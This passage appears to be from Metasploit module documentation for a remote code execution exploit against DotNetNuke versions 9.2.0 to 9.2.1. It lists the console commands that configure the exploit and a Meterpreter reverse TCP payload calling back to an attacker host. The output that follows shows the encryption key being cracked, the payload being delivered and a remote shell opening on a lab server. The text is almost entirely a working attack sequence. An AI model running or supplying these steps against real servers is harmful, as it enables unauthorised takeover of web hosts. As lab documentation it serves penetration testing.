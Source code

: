   ```
  meterpreter >
  ``` 
### v9.2.0 - v9.2.1
  Here's the expected output:
  
  ```
  msf5 > use exploit/windows/http/dnn_cookie_deserialization_rce 
  msf5 exploit(windows/http/dnn_cookie_deserialization_rce) > set RHOSTS 192.168.31.131
  msf5 exploit(windows/http/dnn_cookie_deserialization_rce) > set RPORT 8085
  msf5 exploit(windows/http/dnn_cookie_deserialization_rce) > set PAYLOAD windows/meterpreter/reverse_tcp
  msf5 exploit(windows/http/dnn_cookie_deserialization_rce) > set LHOST 192.168.31.128
  msf5 exploit(windows/http/dnn_cookie_deserialization_rce) > set LPORT 443
  msf5 exploit(windows/http/dnn_cookie_deserialization_rce) > set VERIFICATION_CODE xR9oL8FP2eE_
  msf5 exploit(windows/http/dnn_cookie_deserialization_rce) > set VERIFICATION_PLAIN 0-3
  msf5 exploit(windows/http/dnn_cookie_deserialization_rce) > set ENCRYPTED true
  msf5 exploit(windows/http/dnn_cookie_deserialization_rce) > set SESSION_TOKEN 20FED393A44F86138D9089074C819880222A494155CEFAC6FEAF2B3B5204A227625654D87EA48ECB1E509664A7E8E32644BD363D3E6FD3A3273B245EF2D10B5E13D7912B
  msf5 exploit(windows/http/dnn_cookie_deserialization_rce) > check

  [*] Trying to determine DNN Version...
  [*] Checking version at /Documentation/License.txt ...
  [!] DNN Version Found: v9.2.0+ - Requires ENCRYPTED and SESSION_TOKEN. Setting target to 3 (v9.2.0 - v9.2.1). Site may also be 9.2.2 - try setting target 4 and supply a file of verification codes, or specify valid Key and IV values.
  [*] Checking for custom error page at: /__ ...
  [+] Custom error page detected.
  [+] 192.168.31.131:8085 - The target appears to be vulnerable.
  msf5 exploit(windows/http/dnn_cookie_deserialization_rce) > exploit

  [*] Checking for custom error page at: /__ ...
  [+] Custom error page detected.
  [*] Finding Key...
  [*] Searching at 641992.579 keys/s ...... 1.47% of keyspace complete.
  [+] KEY Found: 022BA242
  [+] IV Found: 0BCF9976
  [*] Total number of Keys tried: 633602
  [*] Time to crack: 0.987 seconds
  [*] Started reverse TCP handler on 192.168.31.128:443 
  [*] Sending Exploit Payload to: /__ ...
  [*] Sending stage (179779 bytes) to 192.168.31.131
  [*] Meterpreter session 1 opened (192.168.31.128:443 -> 192.168.31.131:49971) at 2019-07-10 15:08:04 -0400

  meterpreter > sysinfo
  Computer        : SERVER_NAME
  OS              : Windows 2016 (Build 14393).
  Architecture    : x64
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 2
  Meterpreter     : x86/windows
  meterpreter >
  ```
### v9.2.2 - v9.3.0-RC
  Here's the expected output:
